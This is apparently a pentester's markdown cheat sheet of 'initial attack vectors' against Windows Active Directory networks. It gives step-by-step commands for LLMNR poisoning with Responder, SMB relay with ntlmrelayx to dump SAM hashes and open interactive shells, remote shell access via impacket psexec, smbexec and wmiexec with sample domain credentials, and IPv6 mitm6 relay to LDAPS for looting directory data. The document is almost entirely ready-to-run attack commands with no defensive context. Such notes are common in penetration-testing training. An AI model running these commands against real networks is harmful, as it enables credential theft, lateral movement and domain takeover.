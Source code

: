 # Initial Attack Vectors

## LLMNR Poisoning
- `responder -I <INTERFACE_NAME> -dwv`


## SMB Relay

#### Prerequisite
- smb signing must be disabled on the target (by default is disable on client windows and enable on server windows)
- relayed user credentials must be admin on target machine

#### Check if smb signing is off on the targets:
- `nmap --script=smb2-security-mode.nse -p445 192.168.189.0/24`

#### Steps for this attack:
1. edit `responder.conf` and turn off smb and http services
2. run responder : `responder -I <INTERFACE_NAME> -dwv`
3. Put targets ip address in targets.txt file
4. run `ntlmrelayx.py -tf targets.txt -smb2support`
5. it will capture SAM file of the target machine

- Note : using `-i` with `ntlmrelayx.py` will give an interactive shell

#### Gaining shell access

```bash
impacket-psexec kernel.local/aliakbari:p@ssword1@192.168.127.242

impacket-smbexec kernel.local/aliakbari:p@ssword1@192.168.127.242

impacket-wmiexec kernel.local/aliakbari:p@ssword1@192.168.127.242
```

## IPv6 Attacks
Will enumerate the DC for good information :

1. `mitm6 -i eth1 -d kernel.local`
2. `impacket-ntlmrelayx -6 -t ldaps://192.168.127.248 -wh fakewpad.kernel.local -l lootme`
3. Wait for authentication or reboot a system
